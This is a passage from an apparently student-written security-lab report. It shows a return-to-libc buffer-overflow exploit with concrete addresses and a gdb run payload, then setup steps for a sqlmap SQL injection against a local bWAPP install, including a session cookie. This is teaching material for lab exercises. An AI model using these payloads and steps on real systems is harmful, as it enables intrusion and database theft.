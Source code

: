   ```
  find /home/seed/seclabs/testlab/shellcode
  ```
  ![image](https://github.com/user-attachments/assets/16d3af32-ac3a-407c-9689-b3eeb71507ff)

  The address of system is `0xf7e50db0` => `\xb0\x0d\xe5\xf7`

  The address of exit is `0xf7e449e0` => `\xe0\x49\xe4\xf7`

  The address of my_path is `0xffffdf46` => `\x46\xdf\xff\xff`
## 8. Conduct the attack
* From them and the stackframe, we have this code:
  ```
  r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x46\xdf\xff\xff')")
  ```

**Conclusion**: It can use buffer-overflow and return to libc to conduct the attack
# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security).
  * Set up and go directly to `localhost:8025/install.php`
  * Login to account with: username: `bee`, password: `bug`
  * Set the security level at `low`
 
    
    ![image](https://github.com/user-attachments/assets/f9eb428c-3109-4067-9bbc-423eaf5b68c6)


- Install sqlmap.
  * install by code below
    ```
    git clone https://github.com/sqlmapproject/sqlmap.git
    ```
    ![image](https://github.com/user-attachments/assets/9a127556-d2a6-4561-a9bc-0d508009841f)

    I have already installed.

- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

* Change direct to SQL Injection (GET/Select)
  ![image](https://github.com/user-attachments/assets/ba69dd0f-9fee-4a9e-8922-0569f98cc591)


* We need cookies for the attack, so we will get them
  ![image](https://github.com/user-attachments/assets/fa59e0d2-df6b-4718-87e5-22541d4d2d2f)

  Cookies: `3jksnj690ba8735oii5lilch06`

  
* Press button `go`:
  ![image](https://github.com/user-attachments/assets/8be81e2b-c7f2-47eb-8083-6a8d1ab81638)
